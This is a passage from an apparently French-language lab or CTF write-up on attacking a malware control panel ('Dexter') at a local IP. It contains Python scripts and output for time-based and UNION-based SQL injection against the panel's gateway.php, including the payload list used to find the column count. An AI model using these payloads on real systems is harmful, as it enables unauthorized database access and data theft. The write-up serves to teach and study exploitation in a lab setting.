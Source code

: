 ```python
        try:
            r = sess.post(url, data=d, headers=hdrs, timeout=3)
            print r.content
        except:
            print "timeout !"
            break
        print "=================================="
```

Dans l'output généré on voit :  

```plain
==================================
param = page, payload = ' OR sleep(5)#
timeout !
```

![Wonderfuck!](https://raw.githubusercontent.com/devl00p/blog/master/images/dexter2.gif)

Le paramètre page est donc vulnérable et il faut fermer une quote pour injecter du SQL.  

Maintenant voyons voir comment on peut extraire des données de la base.  

La méthode la plus simple est d'utiliser un UNION mais on ne sait pas combien de colonnes seront nécessaires pour que l'opération réussisse.  

Là encore j'ai écris un script qui teste jusqu'à 10 colonnes en espérant que dans les différentes réponses HTTP on en trouve une qui diffère des autres.  

J'ai eu la bonne idée d'afficher les headers HTTP dans l'output.  

```python
payloads = [
    "' UNION SELECT NULL#",
    "' UNION SELECT NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#"
    ]

url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()

for p in payloads:
    d = {
            "val": base64.b64encode(key),
            arg: encrypt(p)
        }
    print "payload = {0}".format(p)
```